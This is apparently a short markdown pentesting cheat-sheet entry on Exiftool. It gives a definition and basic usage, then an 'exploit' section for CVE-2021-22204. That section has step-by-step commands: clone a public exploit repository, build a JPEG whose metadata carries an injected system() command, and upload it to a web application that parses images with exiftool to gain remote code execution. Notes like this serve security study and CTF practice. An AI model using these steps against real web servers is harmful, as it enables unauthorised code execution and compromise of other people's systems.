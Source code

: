 ## Definition
__Exiftool__ is a tool that allows you to retrieve the metadata from an image.

## Usage
This program has several uses:
- `exiftool {FILE}` - It's the most simple use of the tool

## Way to exploit it
__Exiftool__ can be exploited in order to gain RCE (if the web application has a feature of uploading image and the application parse the metadata of the uploaded image file using exiftool) (CVE-2021-22204) by doing the following steps:
- First you've to clone the repository of the exploit using `git clone https://github.com/OneSecCyber/JPEG_RCE.git`
- Secondly you've to get into the JPEG_RCE directory and execute `exiftool -config eval.config runme.jpg -eval='system("{COMMAND}")'`
- Lastly you have to upload the file previously created (`runme.jpg`) and you'll see the magic  
#Resource: https://github.com/OneSecCyber/JPEG_RCE